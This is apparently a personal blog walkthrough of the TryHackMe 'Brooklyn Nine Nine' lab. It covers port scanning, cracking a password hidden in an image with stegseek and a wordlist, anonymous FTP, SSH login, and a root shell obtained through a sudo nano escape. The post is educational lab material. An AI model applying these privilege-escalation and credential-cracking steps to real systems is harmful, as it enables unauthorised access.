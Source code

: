 ```yaml
---
layout: post
title: Walkthrough - Brooklyn Nine Nine
published: true
---
```


[https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)

* * *

## Hacking

```shell
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the website and viewing source get a nice comment ``<!-- Have you ever heard of steganography? -->`` lets check out the image

- ``wget http://10.10.30.68/brooklyn99.jpg``
- ``stegseek brooklyn99.jpg /usr/share/seclists/Passwords/rockyou.txt``

```shell
cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Don't get much else of the webserver. In the ftp logged in as anon we get another note.

```shell
cat note_to_jake.txt  
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Now we can login to ssh with holt's creds, and get the user flag

* * * 

## User Flag

- ``cat user.txt`` in holts home dir

* * * 

## Root Flag

```shell
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

- ``sudo nano``
- Ctrl+R Ctrl+X
- ``reset; sh 1>&0 2>&0``
- ``cat /root/root.txt``

* * * 
